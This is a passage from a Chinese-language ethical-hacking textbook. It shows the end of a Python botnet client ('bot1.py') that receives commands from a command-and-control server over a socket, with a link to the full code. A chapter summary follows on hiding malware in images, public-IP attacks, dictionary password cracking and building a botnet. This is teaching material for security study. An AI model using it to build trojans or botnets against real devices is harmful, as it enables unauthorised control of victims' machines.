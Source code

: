 while communicate_bot:

msg = s.recv(1024)

msg = msg.decode()

print("指令中心说：", msg)

if msg == "exit":

communicate_bot = False

# ans = input("[+] 是否希望保持连接：")

ans = "connected"

if ans == "no":

status = "disconnected"

s.send(status.encode())

run_bot = False

else:

status = "conntected".encode()

s.send(status)

s.close()

完整的**bot1.py**代码请参见以下链接：

https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/bot1.py

在本节中，我们学习了如何为机器人网络客户端创建一个命令与控制中心。你可以添加任意数量的客户端，并使用你的 CNC 程序统一控制它们。

# 总结

在本章中，我们学习了一些成功部署恶意软件程序的方法。恶意软件程序的一个重要方面是它的隐蔽性。本章重点讲解了如何将恶意软件隐藏在图像中。我们学习了通过公共 IP 进行恶意软件攻击，以及黑客如何攻击不在同一网络中的受害者。接着，我们学习了如何使用字典攻击破解密码保护的文件。最后，我们学习了如何创建一个用于僵尸网络攻击的指挥控制中心。这些攻击允许黑客通过一个程序控制大量分布式设备。通过本章的学习，你应该能够创建木马、执行公共 IP 攻击，并创建自己的僵尸网络。在下一章中，我们将学习如何保护作为黑客的在线身份，以及这一点在成功攻击中的重要性。下一章见！
